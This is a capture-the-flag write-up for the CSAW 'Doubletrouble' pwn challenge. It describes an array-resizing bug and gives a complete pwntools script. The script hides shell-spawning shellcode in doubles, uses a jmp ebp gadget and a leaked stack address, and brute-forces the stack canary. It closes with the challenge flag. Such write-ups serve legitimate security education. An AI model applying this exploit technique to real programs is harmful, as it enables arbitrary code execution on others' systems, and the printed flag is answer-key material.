 # Doubletrouble
Description: Did you know every Number in javascript is a float

host: pwn.chal.csaw.io
port: 9002
creator: nsnc

## Bug
The `findArray()` function finds the first number between -100 and -10. It modifies the array size, and will increase it by the distance from the beginning of the array that the first element between -100 and -10 is found.

## Exploitation
1. Increase size of array
2. Place `jump ebp` gadget in the array
```python
jmpebp = '080497b800000000' # 4.86192279173924203790903928618E-270
```
2. Place address of beginning of the array on the stack so that it will be popped into ebp when it is sorted.
```python
stack_address = p.readline()[2:10]
shellcode_location = '080497b8' + stack_address # that first part is pading to be sorted in the right spot
```
3. Write some shellcode so that it will be sorted at the very beginning of the array.
```python
shellcode1 = 'fcfc56f631580b6a'
shellcode2 = 'f9f9f968732f2f68'
shellcode3 = 'f8e3896e69622f68'
shellcode4 = 'f7fa80cdca89c931'
shellcodesortedbelowthis = 'f7f94e24f7f94e24'
```
4. Run the exploit multiple times to bruteforce the stack canary
```python
#!/usr/bin/env python2
from pwn import *
import binascii
import codecs
import sys
'''
NOTE: Must be ran multiple times to brute force stack canary.
'''

def hextodouble(hexstring):
    return str('%.16E' % struct.unpack('!d',codecs.decode(hexstring, 'hex'))[0])

#context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

while True:
    try:
        p = process("./doubletrouble")
        #p = remote('pwn.chal.csaw.io', 9002)

        stack_address = p.readline()[2:10]

        #shellcode
        shellcode1 = 'fcfc56f631580b6a'
        shellcode2 = 'f9f9f968732f2f68'
        shellcode3 = 'f8e3896e69622f68'
        shellcode4 = 'f7fa80cdca89c931'
        shellcodesortedbelowthis = 'f7f94e24f7f94e24'

        p.sendline("64")
        for i in range(4):
            p.sendline(hextodouble(shellcodesortedbelowthis))
        p.sendline("-11")
        for i in range(57 - 4): # subtract 4 for shellcode
            p.sendline(hextodouble(shellcodesortedbelowthis))

        p.sendline(hextodouble(shellcode1))
        p.sendline(hextodouble(shellcode2))
        p.sendline(hextodouble(shellcode3))
        p.sendline(hextodouble(shellcode4))

        jmpebp = '080497b800000000' # 4.86192279173924203790903928618E-270
        shellcode_location = '080497b8' + stack_address # that first part is pading to be sorted in the right spot
        print("shellcode_location: ")
        print(shellcode_location)
        print(hextodouble(shellcode_location))

        p.sendline(hextodouble(shellcode_location))
        p.sendline(hextodouble(jmpebp))

        p.interactive()
        p.close()
        raw_input()
    except KeyboardInterrupt:
        p.close()
        sys.exit()
    except EOFError:
        p.close()
```

## Flag
```
flag{4_d0ub1e_d0ub1e_3ntr3ndr3}
```
